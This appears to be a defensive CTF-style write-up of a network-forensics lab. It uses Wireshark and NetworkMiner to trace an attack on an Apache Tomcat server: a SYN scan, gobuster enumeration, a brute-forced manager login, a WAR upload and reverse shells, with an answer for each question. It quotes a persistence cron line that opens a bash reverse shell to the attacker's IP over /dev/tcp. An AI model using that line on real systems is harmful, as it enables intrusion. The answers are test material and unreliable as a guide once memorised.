Scenario: The SOC team has identified suspicious activity on a web server within the company's intranet. To better understand the situation, they have captured network traffic for analysis. The PCAP file may contain evidence of malicious activities that led to the compromise of the Apache Tomcat web server. Your task is to analyze the PCAP file to understand the scope of the attack.

Question 1: Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

To identify port scanning activities, we need to determine which host sent the most requests while receiving relatively few responses. To investigate this, I will use the Conversations feature in Wireshark, which summerizes the traffic exchanged between pairs of hosts. The results are show below:


*Figure 1: Conversation summary showing the traffic volume between 14.0.0.120 and 10.0.0.112*

As shown in Figure 1, the flow between 14.0.0.120 and 10.0.0.112 has the most packet count. In particular, 14.0.0.120 sent 9447 packets that larger than significantly compare to 10.0.0.112, with 2 packets. This traffic asymmetry may indicate port scanning activity, as a scanning host typically sends numerous connection requests to different ports while receiving relatively few responses.

To verify this suspicion, we need to return to the main interface of Wireshark and applied the following display filter: tcp.flags.syn==1 && tcp.flag.ack==0. This filter identifies TCP packets with the SYN flag set and the ACK flag unset. These packets are commonly sent by client when initiating TCP connections.


*Figure 2: Wireshark output showing many SYN packets from the attacker IP with multiple destination ports.*

Now, the results is more clearly. The public IP address 14.0.0.120 sent a numerous SYN packet to different destination ports within a short period. This pattern is consistent with TCP SYN scanning (haf-open scanning), in which the scanner attempts to identify open ports without completing full TCP 3-way handshake.

=\> Answer: 14.0.0.120

Question 2: Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?

We have already the suspicious source IP address from the previous step, I will use an IP geolocation service to gather additional information aboujt its geographic location. In this case, I will search for the IP on the IPSHU website:


*Figure 3: IPSHU result identifying the source location of the malicious IP address*

According to the geolocation results, the IP come from GuangZhou, Guangdong province, China

=\> Answer: China

Question 3: From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?

Follow related activities of the ip address 14.0.0.120, we can see the attacker was communicating with the webserver through HTTP traffic.


*Figure 4: HTTP record showing the request targeting the admin-related endpoint*

In the packet No. 20126, the attacker sent GET request to /admin resource. After expanding the “Hypertext Transfer Protocol” (HTTP) section, I found that the requests was sent to the web server at 10.0.0.112 on destination port 8080.

=\> Answer: port to access to admin panel: 8080

Question 4: Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

To see what tools the attacker used during enumeration process, we filter http traffic and view in the User-Agent field. A User-Agent field (or User-Agent HTTP header) is a small line of text that a client—such as a web browser, mobile app, or scraper bot—sends to a web server with every HTTP request.


*Figure 5:  HTTP User-Agent field showing the enumeration tool used by the attacker*
As shown in Figure 5, we can see in the HTTP section, User-Agent field contains the string gobuster/3.6, identifying the tool as Gobuster version 3.6. Gobuster is a directory and file enumeration tool commonly used to discover hidden paths and resources on web servers.
=\> Answer: The attacker used gobuster to enumerate files and directories on the System.

Question 5: After enumerating directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which directory related to the admin panel did the attacker uncover? (Provide the path including the leading slash, e.g. /path)

After identifying Gobuster as the enumeration tool used by the attacker, I continued analyzing the subsequent HTTP requests in the PCAP file to determine whether the attacker had discovered any directories related to the web server's administrative interface.


*Figure 6: HTTP requests indicating enumeration of the Tomcat admin interface*

As shown in figure 6, the attacker sent numerous HTTP request to URIs containing “manager” keyword. However, the server responded with HTTP status code 404 (Not Found) for these requests, indicating that the requested resources were not found at those specific paths.

The repeated requests suggest that the attacker was attempting to discover administrative pages associated with the Apache Tomcat Manager interface.

=\> Answer: /manager

Question 6: After accessing the admin panel, the attacker brute-forced the login. What credentials did the attacker successfully use? (Provide them in username:password format)

HTTP Basic Authentication requests typically contain an Authorization header that encodes the username and password used for authentication. Basic Authentication is a simple HTTP authentication scheme in which a client sends credentials with each request. These credentials are Base64-encoded, rather than encrypted, so they can be exposed if the traffic is transmitted over an unencrypted HTTP connection.

To identify the credentials used by the attacker, I applied the following display filter in Wireshark: http.authbasic
This filter helped me identify HTTP requests containing Basic Authentication credentials. I then examined the corresponding HTTP response codes to distinguish failed login attempts from successful authentication.


*Figure 7: HTTP basic authentication requests containing the credentials*

By inspecting individual packets, I could identify the credentials submitted in each request and correlate them with the corresponding server responses.

Alternatively, NetworkMiner provides a more convenient way to analyze credentials across a large PCAP file. After importing the PCAP into NetworkMiner, I navigated to the Credentials tab, which displayed the credentials observed in the captured traffic along with their associated network activity.


*Figure 8: NetworkMiner Credential tab showing the credentials were used by the attacker*

After examining the HTTP Basic Authentication requests shown in Figure 7, I found that the requests in the packet range from No. 20533 to No. 20549 received HTTP status code 401 (Unauthorized), indicating that these authentication attempts were unsuccessful.

However, packet No. 20553 showed an HTTP response with status code 200 (OK). This response, together with the corresponding authentication request, indicates that the attacker successfully authenticated using the credentials "admin:tomcat":


*Figure 9: Successful authentication response showing the login result and session cookie*

Following successful authentication, the server issued a session cookie that could be used to access the administrative interface without repeatedly submitting the credentials. With access to the administrative interface, the attacker could potentially perform further actions on the web server.  I will continue analyzing the PCAP file to investigate the attacker's subsequent activities.

Question 7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

Since file uploads to web applications commonly involve POST requests, we need to filter these activities in wireshark to identify potential file-upload activity:


*Figure 10: Webshell upload activity in the Tomcat admin panel*

As shown in Figure 10, shortly after successfully authenticating with the previously identified credentials, the attacker attempted to upload a file to the web server. Let’s look at MIME section to view full of details about the included file:


*Figure 11: MIME section showing the uploaded WAR file name.*

A WAR file was uploaded to our web server with the name randomly JXQOZY.war. A WAR file (Web Application Archive) is a packaged deployment file format used to distribute and execute Java-based web applications. It functions like a specialized ZIP archive, bundling all the necessary files, components, and application settings into a single file so that it can be cleanly run on a server.
In this context, the upload is suspicious because it may have been intended to deploy a malicious web application and provide the attacker with a way to execute commands on the server, potentially establishing a reverse shell.
=\> Answer: JXQOZY.war

**Question 8:** After the attacker established a reverse shell on our server, the payload connects back to the attacker's machine. From the analysis, what is the callback destination in IP:port format?

We need to identify the beginning packets initiated by the infected machine to understand big picture. I will apply the display filter in Wireshark to find the TCP SYN packet originated by our web server 10.0.0.112 (reverse connection to the attacker):


*Figure 12: Outbound TCP sessions from the compromised server to the malicious destination*

As shown in Figure 12, there are 2 tcp connections to the malicious IP, using two destination port (80 and 443). We need to examine each connection to understand the purpose of it:

Right-click to the record we want to check → Follow → TCP Stream:

- First connection:


*Figure 13: TCP stream showing the first reverse shell connection and the cron job used for persistence*

In the first connection corresponding to the tcp.stream eq 9461 is the port 80 shell. The attacker uses it to run whoami, cd /tmp, and then plant this cron job:

\* \* \* \* \* /bin/bash -c 'bash -i \>& /dev/tcp/14.0.0.120/443 0\>&1'

The 443 connection at frame 20689 is that cron job firing, so the attacker deliberately chose 443 for the persistence channel.

- Second Connection:


_Figure 14: The persistence callback return a shell of the compromised server_

It isn't really HTTP or TLS:
Wireshark labels both connections as plain TCP, not HTTP or TLS. bash -i \>& /dev/tcp/IP/PORT opens a raw TCP socket and pipes the shell through it. The port number is only camouflage, and the traffic on 443 should also be cleartext.

The figure 14 indicate that the attacker accessed shell of our web server successfully. 
The table below summary callback actions of the attacker:

| Frame | Connection                        | Role                                                           |
|-------|-----------------------------------|----------------------------------------------------------------|
| 20646 | 10.0.0.112:55162 → 14.0.0.120:80  | The first reverse shell, triggered by the uploaded WAR payload |
| 20689 | 10.0.0.112:35790 → 14.0.0.120:443 | The persistence callback, triggered by the cron job            |
=> Answer: 14.0.0.120:443

#Completion

